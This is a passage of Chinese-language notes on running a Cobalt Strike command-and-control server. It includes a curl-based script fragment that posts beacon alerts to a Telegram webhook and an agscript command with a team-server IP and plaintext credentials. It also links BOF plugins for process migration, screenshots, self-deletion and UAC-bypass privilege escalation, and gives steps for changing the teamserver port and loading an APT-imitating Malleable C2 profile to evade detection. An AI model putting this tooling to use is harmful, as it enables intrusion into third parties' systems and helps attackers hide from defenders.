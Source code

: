 ```bash
        'curl', 
        '-X', 'POST',
        '--data-urlencode', 'chat_id=' . $chat_id,
        '--data', 'text=' . $message,
        $tg_bot_webhookURL
    );
    
    exec(@curl_command);
}

```

1. 运行命令

```bash
./agscript 156.238.233.109 50050 bamuwe bamuwepassword tg.cna
```

---

## BOF插件

1. 进程迁移 https://github.com/ajpc500/BOFs
2. 截图 https://github.com/baiyies/ScreenshotBOFPlus
3. 删除自身 https://github.com/AgeloVito/self_delete_bof
4. bypassuac 提权 https://github.com/youcannotseemeagain/ele

---

## C2特征规避

## 切换管理端口

1. 修改CS_PATH/teamserver里的内容

```bash
root@dkhkkdVlKegcS5:~/C2# vi teamserver
root@dkhkkdVlKegcS5:~/C2# cat teamserver
#!/bin/bash
#
# Start Cobalt Strike Team Server
#

./TeamServerImage -Dcobaltstrike.server_port=65535 -Dcobaltstrike.server_bindto=0.0.0.0 -Djavax.net.ssl.keyStore=./cobaltstrike.store -Djavax.net.ssl.keyStorePassword=123456 teamserver $*
```

## 使用profile

在服务端启动时使用

[https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/APT/taidoor.profile](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/APT/taidoor.profile)
